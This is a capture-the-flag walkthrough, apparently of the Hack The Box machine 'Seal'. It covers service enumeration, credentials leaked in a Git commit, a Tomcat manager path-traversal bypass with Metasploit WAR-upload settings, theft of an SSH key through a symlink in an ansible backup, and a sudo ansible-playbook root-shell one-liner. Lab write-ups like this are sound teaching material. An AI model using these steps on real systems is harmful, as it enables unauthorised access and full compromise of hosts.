


```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
```


## Foothold

On port 8080 we found a GitBucket. We registered a new user and found two repositories.
In the repository `seal_market` you can watch the history of some commits.
In one of them you can find credentials `tomcat:42MrHBf*z8{Z%`:

http://seal.htb:8080/root/seal_market/commit/971f3aa3f0a0cc8aac12fd696d9631ca540f44c



At the other page on port 443 you can get a look at the `Server Status` at `https://seal.htb/manager/status/` by using the creds of tomcat but other pages like the `Web Application Manager` are still forbidden.
Not that obvious but after enumerating a while we found a path traversal vulnerability where you can use `/..;/` to get a `/../`.

You can abuse that to get to the `Web Application Manager` like:
```
https://seal.htb/manager/status/..;/html
```



Here we can upload new `.war` files... To get a shell we can use the metasploit epxloit `tomcat_mgr_upload` like:
```
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword 42MrHBf*z8{Z%
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set TARGETURI /manager/status/..;
msf6 exploit(multi/http/tomcat_mgr_upload) > set SSL true
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 443
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.129.218.18
```
Now we got a shell as `tomcat` on the target machine.


## User

Enumerating with linpeas we found an interesting process that gets executed once a while:
```
╔══════════╣ Different processes executed during 1 min (interesting is low number of repetitions)
╚                                                                                                                     
    813 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml   
```

The `run.yml` looks like:
```
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

So user luis copies some files to create a backup using ansible.
At the `run.yml` you can find the option `copy_links=yes`. This is our attack vector here as it copies files instead of links.
So we can create a new symlink to luis' `.ssh` directory and it will copy the files to the archive:
```
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/ssh
```
We can then download the lastest backups in `/opt/backups/archives` to get the `id_rsa` of luis.
Now you can just connect with `ssh -i id_rsa`.


## Root

Logged in as user luis we run `sudo -l`:

```sh
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

As we can run `ansible-playbook` as root we just follow this:  https://gtfobins.github.io/gtfobins/ansible-playbook/.

Just by typing
```sh
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```
you'll get a root shell.
